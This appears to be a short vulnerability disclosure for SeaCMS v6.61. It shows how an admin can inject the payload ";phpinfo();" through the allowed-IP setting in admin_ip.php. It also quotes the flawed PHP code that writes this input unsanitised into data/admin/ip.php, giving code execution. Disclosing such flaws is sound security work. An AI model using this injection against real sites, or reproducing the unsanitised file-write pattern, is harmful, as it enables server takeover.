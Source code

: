 ### backend RCE in the latest version of SeaCMS(v6.61)
In login with admin and visit http://127.0.0.1/seacms/adm1n/admin_ip.php to set the allowed ip as 
```
";phpinfo();"

```
Then click the confirm button.

![image](3.png)

Since the write content is spliced directly based on the input in the file admin_ip.php, the malicious code we construct will be written to the file data/admin/ip.php.
```
if($action=="set")
{
	$v= $_POST['v'];
	$ip = $_POST['ip'];
	$open=fopen("../data/admin/ip.php","w" );
	$str='<?php ';
	$str.='$v = "';
	$str.="$v";
	$str.='"; ';
	$str.='$ip = "';
	$str.="$ip";
	$str.='"; ';
	$str.=" ?>";
	fwrite($open,$str);
	fclose($open);
}

```

Refresh the page(http://127.0.0.1/seacms/adm1n/admin_ip.php)，or visit the page http://127.0.0.1/seacms/data/admin/ip.php,you will getshell.

![image](4.png)